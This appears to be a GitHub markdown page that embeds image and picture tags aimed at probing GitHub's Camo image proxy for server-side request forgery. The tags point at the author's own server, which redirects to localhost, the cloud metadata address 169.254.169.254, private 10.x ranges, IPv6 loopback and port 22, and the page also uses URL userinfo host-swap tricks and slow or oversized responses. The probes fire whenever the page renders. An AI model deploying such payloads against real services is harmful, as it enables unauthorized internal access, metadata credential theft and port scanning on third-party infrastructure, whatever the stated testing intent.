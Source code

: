 ## GitHub Camo Probe (safe tests I own)

> All URLs point to my test box at `http://164.90.187.218:8080`.  
> These images are intentionally broken/slow/large to exercise the proxy.

### 1) Baseline fetch
<img alt="t1-basic" src="http://164.90.187.218:8080/ssrf-test-1-basic?nonce=1" />

### 2) Slow & Large (timeout/limits)
<img alt="t2-slow-30s" src="http://164.90.187.218:8080/ssrf-test-7-slow?duration=30&nonce=2" />
<img alt="t3-large-50mb" src="http://164.90.187.218:8080/ssrf-test-6-large?size=50&nonce=3" />

### 3) Redirect chains (what will camo follow?)
<!-- external->external (should follow) -->
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-5-redirect?step=1&nonce=4">
  <img alt="ext->ext" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>

<!-- external->internal (should be blocked if protections work) -->
<picture>
  <source srcset="http://164.90.187.218:8080/redirect-to-internal?case=localhost&nonce=5">
  <img alt="ext->127.0.0.1" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/redirect-to-internal?case=metadata&nonce=6">
  <img alt="ext->169.254.169.254" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/redirect-to-internal?case=rfc1918-10&nonce=7">
  <img alt="ext->10.0.0.1" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>

### 4) URL parser edge cases
<!-- userinfo trick: which host is honored? -->
<picture>
  <source srcset="http://164.90.187.218:8080/redirect-to-edge?case=userinfo-host-swap&nonce=8">
  <img alt="userinfo-host-swap" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>

<!-- IPv6 localhost -->
<picture>
  <source srcset="http://164.90.187.218:8080/redirect-to-edge?case=ipv6-loopback&nonce=9">
  <img alt="[::1]" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>

### 5) Non-standard ports (small sample; do not scan)
<picture>
  <source srcset="http://164.90.187.218:8080/redirect-to-port?port=22&nonce=10">
  <img alt="port-22" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/redirect-to-port?port=8443&nonce=11">
  <img alt="port-8443" src="https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png" />
</picture>
